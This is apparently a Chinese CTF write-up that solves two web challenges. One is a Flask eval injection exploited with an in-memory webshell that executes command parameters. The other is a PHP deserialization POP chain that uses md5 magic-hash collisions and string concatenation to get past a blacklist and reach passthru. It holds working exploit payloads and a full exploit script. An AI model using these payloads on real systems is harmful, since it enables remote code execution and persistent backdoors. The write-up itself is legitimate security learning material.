

# week 3

## 【这又是什么函数】
先目录扫描发现`/src` 路由，得到源代码
```python
from flask import Flask,request,render_template

app = Flask(__name__)
@app.route('/', methods=['GET', 'POST'])
def index():
    return render_template('index.html')

@app.route('/doit', methods=['GET', 'POST'])
def doit():
    e=request.form.get('e')
    try:
        eval(e)
        return "done!"
    except Exception as e:
        return "error!"

@app.route('/src', methods=['GET', 'POST'])
def src():
    return open(__file__, encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```
可以看到`/doit` 路由存在`eval` 函数可以执行表达式。这里是无回显的，并且环境不出网，所以我们可以打内存马。 
post传：
```http
e=eval("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda 
:__import__('os').popen(request.args.get('0')).read())")
```
打入之后会在当前路由加载前执行get传入的命令，我们直接访问当前路由`doit?0=cat /flag` 即可

# week 4
## 【Path to Hero】
给了我们源码
```php
<?php
highlight_file('index.php');

Class Start
{
    public $ishero;
    public $adventure;


    public function __wakeup(){

        if (strpos($this->ishero, "hero") !== false && $this->ishero !== "hero") {
            echo "<br>勇者啊，去寻找利刃吧<br>";

            return $this->adventure->sword;
        }
        else{
            echo "前方的区域以后再来探索吧！<br>";
        }
    }
}

class Sword
{
    public $test1;
    public $test2;
    public $go;

    public function __get($name)
    {
        if ($this->test1 !== $this->test2 && md5($this->test1) == md5($this->test2)) {
            echo "沉睡的利刃被你唤醒了，是时候去讨伐魔王了！<br>";
            echo $this->go;
        } else {
            echo "Dead";
        }
    }
}

class Mon3tr
{
    private $result;
    public $end;

    public function __toString()
    {
        $result = new Treasure();
        echo "到此为止了！魔王<br>";

        if (!preg_match("/^cat|flag|tac|system|ls|head|tail|more|less|nl|sort|find?/i", $this->end)) {
            $result->end($this->end);
        } else {
            echo "难道……要输了吗？<br>";
        }
        return "<br>";
    }
}

class Treasure
{
    public function __call($name, $arg)
    {
        echo "结束了？<br>";
        eval($arg[0]);
    }
}

if (isset($_POST["HERO"])) {
    unserialize($_POST["HERO"]);
}
```
经典的php反序列化，构造pop链的过程如下：

下面是如何绕过这些if：
1. 
```php
if (strpos($this->ishero, "hero") !== false && $this->ishero !== "hero") {  
    echo "<br>勇者啊，去寻找利刃吧<br>";  
  
    return $this->adventure->sword;  
}  
```
`strpos()` 函数的作用是返回字符串中指定字符串出现的位置，这里只要不为`false`，并且我们的输入不为`hero`，那我们输入`1hero`就好了。
2. 
```php
if ($this->test1 !== $this->test2 && md5($this->test1) == md5($this->test2)) {  
    echo "沉睡的利刃被你唤醒了，是时候去讨伐魔王了！<br>";  
    echo $this->go;  
}
``` 
这里就常规的md5绕过，就不说了。
3. 
```php
if (!preg_match("/^cat|flag|tac|system|ls|head|tail|more|less|nl|sort|find?/i", $this->end)) {  
    $result->end($this->end);  
}
```
这里要执行命令了，禁了`system`，我们首先选择有回显的`passthru`,绕过字符串就用字符串拼接就好了`passthru('l'.'s');` 

完整exp：
```php
<?php  
  
Class Start  
{  
    public $ishero;  
    public $adventure;  
}  
  
class Sword  
{  
    public $test1;  
    public $test2;  
    public $go;  
}  
  
class Mon3tr  
{  
    private $result;  
    public $end;  
}  
  
class Treasure  
{  

}  
  
$Star = new Start();  
$Star->ishero = "nohero";  
$Sword = new Sword();  
$Star->adventure = $Sword;  
$Sword->test1 = "QNKCDZO";  
$Sword->test2 = "240610708";  
$Sword->go = new Mon3tr();  
$Sword->go->end = "passthru('l'.'s');";  
   
echo serialize($Star);
```
